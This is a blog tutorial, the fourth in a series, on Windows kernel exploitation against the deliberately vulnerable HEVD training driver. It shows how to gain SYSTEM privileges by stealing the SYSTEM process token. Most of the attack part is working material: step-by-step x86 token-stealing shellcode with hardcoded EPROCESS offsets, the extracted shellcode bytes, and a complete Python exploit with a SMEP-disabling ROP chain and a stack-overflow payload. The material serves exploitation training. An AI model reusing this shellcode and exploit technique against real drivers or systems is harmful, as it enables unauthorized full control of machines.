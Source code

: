 :slug: hevd-privilege-escalation/
:date: 2020-09-24
:category: attacks
:subtitle: Local Privilege Escalation
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Christina @ wocintechchat.com on Unsplash
:description: In this article we will be able to perform a Local Privilege Escalation using an exploit to HEVD
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/F75IfIWSqRY

= HEVD: Local Privilege Escalation

This is the fourth article on where we've been through Windows Kernel
exploitation, using
link:https://github.com/hacksysteam/HackSysExtremeVulnerableDriver[HackSys Extremely Vulnerable Driver]
or `HEVD` as the target. In the previous articles, we've covered:

* link:../windows-kernel-debugging/[Lab setup], describing the tools and
environment needed to do Windows Kernel debugging.
* link:../hevd-dos/[Denial of Service] in which we performed an initial
attack to `HEVD`.
* link:../hevd-smep-bypass/[kASLR SMEP] were also successfully bypassed and
we could execute a simple shellcode in kernel mode.

In this article we will be able to obtain a privileged `SYSTEM` shell,
performing a Local Privilege Escalation by stealing security tokens.
We will also need to successfully resume execution of our OS after
the attack, to avoid any crash.

== Security token stealing

When we are attacking the kernel, we are supposed to have unprivileged access
to the target machine. That's why the common exploit goal is to perform
Local Privilege Escalation which means to get full privileges on the
OS. There are
link:https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/[several methods]
that can be used to do that. Most of them (ab)use the privilege model
implemented by Windows.

In Windows, when the system starts, a process called `System` is created,
always with `PID` 4. As this process is owned by the `SYSTEM` user, we will
use this as the target process to steal the ticket from.

image::sysprocess2.png[SYSTEM processes]

Each process has a `EPROCESS` structure.

image::eprocess1.png[EPROCESS structure]

One of the members of that structure is `Token` which is a ticket granted
by the `LSASS` process.

image::token1.png[Security Token]

The token is used to perform operations on the system
based on the permissions granted to it. For example, if a process
wants to read a file, that file security descriptor will check if the
token of process has the permissions to do it. This is what is known as
Discretionary Access Control List or `DACL`.

In Windows, the `SYSTEM` token has all the permissions granted on all the
system objects (files, processes, devices, pipes, etc). That's why, if
we are able to steal that token and insert it to a non-privileged process,
that process will gain `SYSTEM` privileges.

To do that, we first need to get the offset of the `Token` field in the
`EPROCESS` structure:

image::token2.png[Security Token]

As you see, it is at `_EPROCESS+0x0fc`. With that, we need to get the `SYSTEM`
process descriptor:

image::sysprocess1.png[SYSTEM process]

Then, we need to get the value of the token for the `SYSTEM` process:

image::tokenvalue1.png[SYSTEM token value]

Now, we launch a `cmd.exe` process on the target OS and get the current
privileges:

image::before1.png[Before Privilege Escalation]

We must get the `cmd.exe` process descriptor:

image::cmdprocess1.png[CMD process]

Finally, we must copy the value of the token of the `SYSTEM` process to
the `cmd.exe` process. Let's see it in action:

image::lpe1.gif[Local Privilege Escalation]

Wonderful! As you can see, our `cmd.exe` is now running as
`nt authority\system`!

*NOTE:* We need to remember that the offsets described in this article
are only applicable for the Windows version that we are currently using:
Windows 10 1703 32 bits.

Now, we must make this process programmatically if we want to include
it in our exploit. The strategy is the following:

* Look for a fixed starting point that we can use to calculate offsets, using
position-independent code.
* Get the current process list.
* Find the `cmd.exe` process.
* Find the `SYSTEM` process (with `PID` 4).
* Grab the `Token` from the `SYSTEM` process.
* Copy the token from process `SYSTEM` to the `cmd.exe` process.
* Restore execution.
* Enjoy.

The first step is to find a fixed position from where we can get the required
structures as an offset. According to
link:https://en.wikipedia.org/wiki/Win32_Thread_Information_Block[this entry],
we can access the `_NT_TIB` structure from the `fs` segment selector. This
structure holds information of the current running thread (in our case, that
would be the exploit). The article also says that we can reach the `_KTHREAD`
structure at `fs+0x124`. With that, we can start writing some assembler:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
----

In the `_KTHREAD` structure we can find an offset to the `_KPROCESS`.

image::kthread1.png[KTHREAD KPROCESS]

It turns out that `_KPROCESS` is the first field of `_EPROCESS`, which means
that we can access the `_EPROCESS` structure at `_KTHREAD+0x150`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
----

The `_EPROCESS` structure holds the required offsets to the other needed
information:

* `_EPROCESS+0x0b8` points to `ActiveProcessLinks` which is a linked list
holding the current running processes, and `_EPROCESS+0x0b4` points to the
current process `PID`:

image::activeprocess1.png[Active Process Links]

* `_EPROCESS+0x140` points to `InheritedFromUniqueProcessId` which will contain
the `PID` of the parent process, in our case the `PID` of `cmd.exe`:

image::parentpid1.png[Parent Pid]

With that, we need to save the `PID` of `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword fs:[0x124]               ; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]              ; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
----

Now we need to traverse the `ActiveProcessLinks` list to find the `_EPROCESS`
structure for the `cmd.exe` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
----

Then, find the `_EPROCESS` structure for the `SYSTEM` process:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4            	; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
----

We then must move the token from `SYSTEM` to `cmd.exe`:

[source,x86asm]
----
pushad                                  ; Save current registers
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
----

And finally restore execution. As we are writing in the stack, we had surely
mangled immediate stack frames of caller functions. If we look at the stack
after executing the shellcode, we can see that there is a stack frame at which
we can return to, located at `esp+0x10`:

image::prev-ebp1.png[Previous unmangled stack frame]

With that, we can add a restore point to our shellcode:

[source,x86asm]
----
pushad
mov eax, dword [fs:0x124]           	; EAX now points to _KTHREAD
mov eax, dword [eax+0x150]          	; EAX now points to _EPROCESS
mov edx, dword [eax+0x140]          	; EDX now points to cmd.exe PID
mov ecx, eax                            ; ECX will be used to iterate over ActiveProcessLinks
find_cmd:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], edx              ; Check if this entry belongs to `cmd.exe`
jne find_cmd                            ; If not, go to the next entry of ActiveProcessLinks
mov edi, ecx                            ; EDI now points to cmd.exe _EPROCESS
mov ecx, eax                            ; Rewind to interate using ECX over ActiveProcessLinks
find_system:
mov ecx, dword [ecx+0x0b8]          	; ECX points to ActiveProcessLinks
                                        ; of current process
sub ecx, 0x0b8                          ; Point to current _EPROCESS
cmp dword [ecx+0x0b4], 4                ; Check if this entry belongs to PID 4 = SYSTEM
jne find_system                         ; If not, go to the next entry of ActiveProcessLinks
add ecx, 0x0fc                          ; ECX now points to the Token of SYSTEM
mov ecx, [ecx]                          ; Copy contents of Token to ECX
mov [edi+0x0fc], ecx                    ; Move the Token of SYSTEM to cmd.exe
popad                                   ; Restore
xor eax,eax
inc eax
add esp,0x10
pop ebp
ret 8
----

Now, we can compile that code with:

[source,console]
----
> nasm -f elf32 -o steal.o steal.asm
----

And get the shellcode with:

[source,console]
----
$ for i in $(objdump -d steal.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01\x00\x00
\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39\x91\xb4\x00\x00
\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00
\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1\xfc\x00\x00\x00\x8b\x09\x89\x8f
\xfc\x00\x00\x00\x61\x31\xc0\x40\x83\xc4\x10\x5d\xc2\x08\x00
----

Let's pick the exploit from the link:../hevd-smep-bypass/[last post],
and update the shellcode. I also added some `print` calls that helps
to trace at what stage of the exploit we are now:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-privilege-escalation/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\x60\x64\xa1\x24\x01\x00\x00\x8b\x80\x50\x01\x00\x00\x8b\x90\x40\x01'
    b'\x00\x00\x89\xc1\x8b\x89\xb8\x00\x00\x00\x81\xe9\xb8\x00\x00\x00\x39'
    b'\x91\xb4\x00\x00\x00\x75\xec\x89\xcf\x89\xc1\x8b\x89\xb8\x00\x00\x00'
    b'\x81\xe9\xb8\x00\x00\x00\x83\xb9\xb4\x00\x00\x00\x04\x75\xeb\x81\xc1'
    b'\xfc\x00\x00\x00\x8b\x09\x89\x8f\xfc\x00\x00\x00\x61\x31\xc0\x40\x83'
    b'\xc4\x10\x5d\xc2\x08\x00'
)

print('Allocating memory for shellcode...')
RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

print('Moving shellcode to heap...')
KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

print('Creating ROP chain...')
ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

print('Opening driver handle...')
HANDLE = DeviceIoControl(DEVICE_NAME)
print('Sending payload...')
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
print('Done.')

sys.exit(0)
----

And check it:

image::success.gif[Success]

Glorious! We were able to steal the token of the `SYSTEM` process and
copy it to our `cmd.exe` shell. Now, we own the system!

== Conclusions

It was fun to steal the `SYSTEM` process token and pass it to our own
parent process. There are many other ways of gaining Local Privilege Escalation
but this method is one of the most used because it is extremely reliable if
you can restore the execution of the kernel.

